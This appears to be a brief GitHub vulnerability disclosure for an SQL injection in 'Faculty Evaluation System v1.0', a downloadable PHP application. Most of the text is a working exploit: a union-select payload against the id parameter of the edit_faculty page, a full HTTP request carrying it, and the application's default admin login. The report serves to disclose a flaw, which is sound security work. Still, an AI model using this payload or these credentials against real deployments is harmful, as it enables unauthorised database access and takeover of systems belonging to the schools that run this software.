 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: acmglz

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/index.php?page=edit_faculty&id=

Vulnerability location: /eval/index.php?page=edit_faculty&id=, id

dbname =evaluation_db

[+] Payload: /eval/index.php?page=edit_faculty&id=-1%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /eval/index.php?page=edit_faculty&id=-1%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233827338-31bc5945-5a83-4c3b-ade0-978cbe35d99d.png)
